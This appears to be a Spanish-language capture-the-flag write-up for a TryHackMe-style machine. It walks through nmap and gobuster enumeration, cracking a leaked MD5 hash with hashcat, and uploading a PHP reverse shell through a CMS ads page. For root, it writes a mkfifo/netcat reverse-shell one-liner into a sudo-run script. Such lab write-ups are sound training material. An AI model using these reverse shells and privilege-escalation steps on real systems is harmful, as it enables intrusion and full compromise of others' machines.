

Lo primero que haremos será lanzar un escaneo con nmap -sV -vv 10.10.18.129:

 
Luego vemos con otro nmap: nmap -A -p- -T4  10.10.18.129
Que hay dos puertos abiertos: SSH and HTTP

 
Luego haremos un fuzzing a la pagina con el comando: gobuster dir -u http://10.10.182.8 -w /usr/share/wordlists/dirb/common.txt

Vemos que es interesante /content y nos vamos a la web y buscamos ip/content.

Hacemos otro fuzzing a /content : gobuster dir -u http://10.10.18.129/content -w /usr/share/wordlists/dirb/common.txt

 
Vamos a ver ip/content/as si es interesante y vemos un login:

Si vamos a http://10.10.18.129/content/inc/ veremos un index con contenido interesante:

 
La parte más interesante en mysql_backup:

 
Y si entramos dentro de la carpeta vemos que hay un backup: 

 
Vemos que esta el usuario y la contraseña encriptada en MD5: (User: manager y contraseña: 42f749ade7f9e195bf475f37a44cafcb)

Así que usamos este comando para poder romperla:
sudo hashcat -m 0 hash(nombre fichero donde esta el hash) /usr/share/wordlists/rockyou.txt                            

Y la rompemos:
Password123
Entramos al anterior login en el navegador: ip/content/as
Manager
Password123
Y entramos:

 
Luego usamos esta reverse Shell: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
REVERSE SHELL: Cambiamos la ip ( DE NUESTRA MAQUINA KALI TUN0)  y el puerto y nos vamos al apartado ads de la página y pegamos la reverse Shell y le damos a done:

 
Ahora nos vamos a la terminal y ponemos: 
rlwrap nc -lvnp 4444

Ahora nos iremos al navegador y pondremos ipmaquina/content/inc/ads:

 
UPGRADEAR SHELL
Y le damos click a la Shell y ya tendremos la reverse Shell en nuestra consola, ahora la upgradeamos con el comando:
python3 -c 'import pty;pty.spawn("/bin/bash")'
o también con:
python -c 'import pty;pty.spawn("/bin/bash")';
export SHELL=bash
export TERM=xterm-256color

 
Y ahí esta la flag del usuario: (/home/itguy/user.txt)

 
Respuesta: THM{**************}

Ahora haremos sudo -l y nos saldrán varias cosas, tendremos que correr el script backup.pl

 
Para ello nos vamos a esa ruta y leemos el fichero:

 
Ahora haremos un nano !$ (del archivo /etc/copy.sh)
OTRA OPCIÓN HACER ESTO: 
www-data@THM: echo “rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc miipkali 5554(puerto) >/tmp/f” > /etc/copy.sh

EL COMANDO
echo ‘rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <our IP> 4444 >/tmp/f' > /etc/copy.sh
Y cambiamos la ip por la nuestra (Kali) y otro puerto (5554) por ejemplo
Y ahora estar escuchando con netcat:

 
Ahora hacemos un sudo /usr/bin/perl /home/itguy/backup.pl :

 
Y ya se nos abrirá la Shell como root:

 
Y nos vamos a /root y cat root.txt

 
